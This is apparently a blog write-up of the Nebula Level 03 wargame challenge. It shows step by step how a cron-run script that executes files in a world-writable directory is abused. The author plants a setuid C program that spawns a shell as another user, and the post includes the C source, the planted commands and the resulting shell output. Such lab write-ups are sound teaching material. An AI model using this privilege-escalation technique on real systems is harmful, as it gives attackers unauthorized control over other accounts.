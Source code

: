 ```yaml
---
author: alvaro
comments: true
layout: post
title: 'Nebula Level 03'
categories:
- Archive
tags:
- security
---
```


In the challenge 3 there is a crontab called every couple of minutes for user `flag03`. The directory is as follows. 


```bash
level03@nebula:/home/flag03$ ls -l
total 9
drwxrwxrwx 1 flag03 flag03   40 Dec 14 07:42 writable.d
-rwxr-xr-x 1 flag03 flag03   98 Nov 20  2011 writable.sh
```

Is logical to think that the script that is executed each two minutes by crontab should be writable.sh.

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Basically the aim of this script is to execute all files in the writable.d directory. This directory has special permission since everyone can write or read in it as `/tmp`. We should achieve that the script `writable.sh` executes some binary and inherit its ownership. In that way if we can execute `/bin/sh` with the flag03 user we will be able to run `getflag` in a flag account.

All what we must do is write the following program in `/tmp` since anyone is able to write in it.

```C
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv)
{
	uid_t euid = geteuid(); 
	gid_t egid = getegid(); 
	setresgid(egid, egid, egid);
	setresuid(euid, euid, euid);

	system("/bin/sh");
}
```

```bash
level03@nebula:/tmp$ make pwned
cc     pwned.c   -o pwned
level03@nebula:/tmp$ cat execme
cp /tmp/pwned /home/flag03/pwned
chown flag03 /home/flag03/pwned
chmod u+s /home/flag03/pwned
level03@nebula:/tmp$ chmod +x execme
level03@nebula:/tmp$ cp execme /home/flag03/writable.d/
```

Copying the file execme in `/home/flag03/writable.d`, it will be execute each two minutes by the user `flag03`. Thanks to that,  the binary `pwned` in the `/home/flag03` will be set uid by the user `flag03` and when the user `level03` executes the binary it will run as `flag03`.

```bash
level03@nebula:/home/flag03$ ls -l
total 9
-rwsrwxr-x 1 flag03 flag03 7321 Dec 14 07:42 pwned
drwxrwxrwx 1 flag03 flag03   40 Dec 14 07:42 writable.d
-rwxr-xr-x 1 flag03 flag03   98 Nov 20  2011 writable.sh
level03@nebula:/home/flag03$ ./pwned
sh-4.2$ id
uid=996(flag03) gid=1004(level03) groups=996(flag03),1004(level03)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

> If you try run `writable.sh` by your own you execute everything with `level03` ownership. I had a problem due to crontab is wasn’t call so I had to configure it to work. All what you should do is the following in the terminal write `crontab -e` and configure the script to run as: `* * * * * flag03 /home/flag03/writable.sh`. With this the script will be run each minute by the user `flag03`


{% include twitter_plug.html %}

	